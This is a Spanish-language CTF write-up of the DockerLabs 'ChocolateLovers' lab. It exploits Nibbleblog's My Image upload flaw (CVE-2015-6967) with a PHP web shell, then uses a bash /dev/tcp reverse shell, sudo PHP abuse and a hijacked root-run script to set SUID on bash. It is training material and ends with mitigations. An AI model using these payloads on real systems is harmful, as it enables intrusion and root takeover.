





# ChocolateLovers — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.18.0.2 | 

## Descripcion 

Laboratorio para practicar la explotación del CMS Nibbleblog para obtener una shell y escalar privilegios en Linux.

## Attack chain

## Attack chain:

**Nmap → Web Enumeration → Nibbleblog Discovery → Gobuster → Admin Panel Access → My Image Plugin Exploitation (CVE-2015-6967) → Remote Code Execution (RCE) → Reverse Shell → www-data Access → Sudo/PHP Abuse → chocolate Access → Writable Root Script Discovery → Script Hijacking → Bash SUID Abuse → Root**

## 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/chocolateLovers]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-19 20:08 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 06:75:39:A8:60:D8 (Unknown)

```
Único servicio expuesto: HTTP en el puerto 80, mostrando la página por defecto de Apache.




## 2. Enumeración web.

Al revisar el código fuente de la página por defecto, se encontró un **comentario HTML** que referenciaba `nibbleblog`. Confirmando esa pista, al acceder a:


```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <!--
    Modified from the Debian original for Ubuntu
    Last updated: 2016-11-16
    See: https://launchpad.net/bugs/1288690
  -->
<!-- /nibbleblog -->
<!-- /nibbleblog -->
<!-- /nibbleblog -->
<!-- /nibbleblog -->
<!-- /nibbleblog -->
<!-- /nibbleblog -->
<!-- /nibbleblog -->
  
  <head>

```



El servidor redirige automáticamente al panel de administración, confirmando la presencia de un **Nibbleblog**.

Se realizó fuzzing de directorios sobre la ruta `/nibbleblog/` (con `gobuster`), lo que reveló rutas adicionales del CMS, incluyendo el panel de login y la estructura típica de `content/private/plugins/`.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/chocolateLovers]
└─$ gobuster dir -u http://172.17.0.2/nibbleblog -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
admin                (Status: 301) [Size: 319] [--> http://172.17.0.2/nibbleblog/admin/]
plugins              (Status: 301) [Size: 321] [--> http://172.17.0.2/nibbleblog/plugins/]
themes               (Status: 301) [Size: 320] [--> http://172.17.0.2/nibbleblog/themes/]
admin.php            (Status: 200) [Size: 1401]
install.php          (Status: 200) [Size: 78]
feed.php             (Status: 200) [Size: 1289]
content              (Status: 301) [Size: 321] [--> http://172.17.0.2/nibbleblog/content/]
languages            (Status: 301) [Size: 323] [--> http://172.17.0.2/nibbleblog/languages/]
sitemap.php          (Status: 200) [Size: 541]
index.php            (Status: 200) [Size: 5015]
update.php           (Status: 200) [Size: 1792]
README               (Status: 200) [Size: 4628]
COPYRIGHT.txt        (Status: 200) [Size: 1272]
LICENSE.txt          (Status: 200) [Size: 35148]
index.php            (Status: 200) [Size: 5015]
Progress: 186843 / 186843 (100.00%)
===============================================================
Finished
===============================================================

```
## 3. Acceso al panel de administración

Se probaron credenciales por defecto sobre el login de Nibbleblog:



Acceso concedido al panel de administración.



### Explotación — RCE vía plugin My Image (CVE-2015-6967)

Nibbleblog es vulnerable a una subida de archivos arbitraria a través del plugin **My Image**, que no valida correctamente la extensión del archivo subido, permitiendo subir un archivo `.php`.

Desde el panel de administración, en la configuración del plugin *My Image*, se subió un archivo con el siguiente contenido:

```php
<?php system($_GET['cmd']); ?>
```

> **Nota:** Nibbleblog renombra automáticamente el archivo subido a `image.php`, independientemente del nombre original usado al subirlo.

El archivo queda alojado en: `/nibbleblog/content/private/plugins/my_image/image.php`



### Confirmación de RCE

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/chocolateLovers]
└─$ curl -G "http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php" --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
                                                         
```
RCE confirmado como `www-data`.

### Obtención de reverse shell

Se levantó un listener en la máquina atacante:

```bash
nc -lvnp 4444
```
Y se envió el payload del reverse shell:

```bash
curl -G "http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"
```
> **Detalle técnico:** El comando debe envolverse explícitamente en `bash -c '...'`, ya que PHP ejecuta `system()` utilizando `/bin/sh` (symlink a `dash` en Ubuntu), y `dash` no soporta la redirección `/dev/tcp/...` (es una *bashism* exclusiva de bash). Sin el `bash -c` envolvente, el payload falla silenciosamente.

Conexión recibida en el listener como `www-data`. y se estabiliza TTY.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/chocolateLovers]
└─$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 35840
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
</html/nibbleblog/content/private/plugins/my_image$ script -qc /bin/bash /dev/null
<te/plugins/my_image$ script -qc /bin/bash /dev/null
</html/nibbleblog/content/private/plugins/my_image$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/chocolateLovers]
└─$ stty raw -echo; fg                             
[1]  + continued  nc -lvnp 4444

</html/nibbleblog/content/private/plugins/my_image$ export TERM=xterm
 stty size rows 31 columns 160/html/nibbleblog/content/private/plugins/my_image$ 
0 0
www-data@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$  

```

## 4. Escalada de privilegios

Se comprobaron los privilegios de sudo del usuario actual:

```bash

www-data@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo -l
Matching Defaults entries for www-data on 57ee64f7d08c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 57ee64f7d08c:
    (chocolate) NOPASSWD: /usr/bin/php
www-data@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ 

```
El usuario `www-data` puede ejecutar `/usr/bin/php` como el usuario `chocolate`, sin contraseña. Se abusó de esto para obtener una shell como `chocolate`:

```bash
www-data@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo -u chocolate /usr/bin/php -r "system('/bin/bash -i');"
chocolate@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
uid=1000(chocolate) gid=1000(chocolate) groups=1000(chocolate)

```
Se revisaron binarios SUID, capabilities, crontabs y procesos en ejecución. El hallazgo clave surgió al listar los procesos activos:

```
chocolate@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2624  1820 ?        Ss   18:25   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.1 201404 23372 ?        Ss   18:25   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.1 202100 18552 ?        S    18:25   0:00 /usr/sbin/apache2 -k start
www-data      31  0.0  0.1 201628 13320 ?        S    18:25   0:00 /usr/sbin/apache2 -k start
www-data      32  0.0  0.1 202088 18540 ?        S    18:25   0:00 /usr/sbin/apache2 -k start
www-data      33  0.0  0.1 201880 18320 ?        S    18:25   0:00 /usr/sbin/apache2 -k start
www-data      34  0.0  0.1 201896 18172 ?        S    18:25   0:00 /usr/sbin/apache2 -k start
www-data      69  0.0  0.1 201892 18744 ?        S    18:27   0:00 /usr/sbin/apache2 -k start
www-data     524  0.0  0.1 202040 18608 ?        S    18:46   0:00 /usr/sbin/apache2 -k start
www-data     950  0.0  0.0   2624  1768 ?        S    19:03   0:00 sh -c bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
www-data     951  0.0  0.0   3992  3220 ?        S    19:03   0:00 bash -c bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
www-data     952  0.0  0.0   4124  3604 ?        S    19:03   0:00 bash -i
www-data    1150  0.0  0.0   2652  2084 ?        S    19:11   0:00 script -qc /bin/bash /dev/null
www-data    1151  0.0  0.0   2624  1820 pts/0    Ss   19:11   0:00 sh -c /bin/bash
www-data    1152  0.0  0.0   4256  3592 pts/0    S    19:11   0:00 /bin/bash
root        3260  0.0  0.0   5020  3628 pts/0    S    20:39   0:00 sudo -u chocolate /usr/bin/php -r system('/bin/bash -i');
chocola+    3261  0.0  0.1  67032 20488 pts/0    S    20:39   0:00 /usr/bin/php -r system('/bin/bash -i');
chocola+    3262  0.0  0.0   2624  1640 pts/0    S    20:39   0:00 sh -c /bin/bash -i
chocola+    3263  0.0  0.0   4256  3600 pts/0    S    20:39   0:00 /bin/bash -i
root        3318  0.0  0.0   2524  1408 ?        S    20:41   0:00 sleep 5
chocola+    3319  0.0  0.0   5908  3108 pts/0    R+   20:41   0:00 ps aux

```
**Root** ejecuta en un loop infinito (cada 5 segundos) el script `/opt/script.php` mediante el intérprete PHP, con privilegios de root.

```
chocolate@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -la /opt/script.php
-rw-r--r-- 1 chocolate chocolate 59 May  7  2024 /opt/script.php

```
El archivo es **propiedad de `chocolate`** y escribible por el mismo. Como root lo ejecuta periódicamente sin validar su contenido, cualquier modificación realizada por `chocolate` se ejecuta con privilegios de root.

Se sobrescribió el contenido del script con un comando que otorga el bit SUID a `/bin/bash`:

```bash
echo '<?php system("chmod u+s /bin/bash"); ?>' > /opt/script.php
```
Tras esperar el siguiente ciclo del loop (~5 segundos), se confirmó el cambio:

```bash
chocolate@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```
El bit SUID (`s` en los permisos del owner) quedó activo. Finalmente, se ejecutó bash en modo privilegiado:

```bash
chocolate@57ee64f7d08c:/var/www/html/nibbleblog/content/private/plugins/my_image$ /bin/bash -p
bash-5.0# id
uid=1000(chocolate) gid=1000(chocolate) euid=0(root) groups=1000(chocolate)
bash-5.0# whoami
root
bash-5.0
```

> **Nota técnica:** El flag `-p` es necesario porque bash, por diseño, baja automáticamente sus privilegios efectivos cuando detecta que el UID real difiere del UID efectivo (protección estándar contra el abuso de SUID). `-p` evita ese downgrade.


## Conclusión

A partir del escaneo inicial con **Nmap**, se identificó un servidor Apache y, mediante la enumeración web, se descubrió el CMS **Nibbleblog**. Tras acceder al panel de administración, se explotó el plugin **My Image** para ejecutar comandos remotamente y obtener una reverse shell como `www-data`.

Posteriormente, se abusó de los permisos de `sudo` sobre PHP para acceder como `chocolate`. Durante la enumeración, se descubrió que `root` ejecutaba periódicamente un script modificable por dicho usuario. Al alterar su contenido, fue posible habilitar el bit **SUID** en `/bin/bash` y obtener una shell con privilegios de `root`.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Credenciales débiles o predeterminadas** | Permiten acceder al panel de administración. | Cambiar las credenciales predeterminadas y utilizar contraseñas robustas. |
| **Subida de archivos insegura en My Image** | Permite cargar y ejecutar código PHP en el servidor. | Validar el contenido y la extensión de los archivos, y evitar ejecutar archivos subidos. |
| **Ejecución remota de comandos (RCE)** | Permite ejecutar comandos como `www-data` y obtener una shell remota. | Corregir la vulnerabilidad, actualizar el CMS y restringir las funciones peligrosas. |
| **Permisos de `sudo` sobre PHP** | Permiten ejecutar comandos como el usuario `chocolate`. | Aplicar el principio de mínimo privilegio y restringir el uso de intérpretes mediante `sudo`. |
| **Script privilegiado modificable por `chocolate`** | Permite ejecutar comandos arbitrarios con privilegios de `root`. | Proteger los scripts ejecutados por usuarios privilegiados y controlar sus permisos de escritura. |
| **Abuso del bit SUID en Bash** | Permite obtener una shell con privilegios efectivos de `root`. | Evitar que usuarios sin privilegios puedan modificar o ejecutar operaciones que alteren los permisos de archivos críticos. |

## Recomendaciones generales

- Mantener el CMS y sus plugins actualizados.
- Utilizar credenciales seguras y evitar contraseñas predeterminadas.
- Restringir la subida y ejecución de archivos en aplicaciones web.
- Revisar las reglas de `sudo` para evitar el abuso de intérpretes como PHP.
- No permitir que usuarios sin privilegios modifiquen scripts ejecutados como `root`.
- Auditar los permisos SUID y proteger los binarios críticos del sistema.
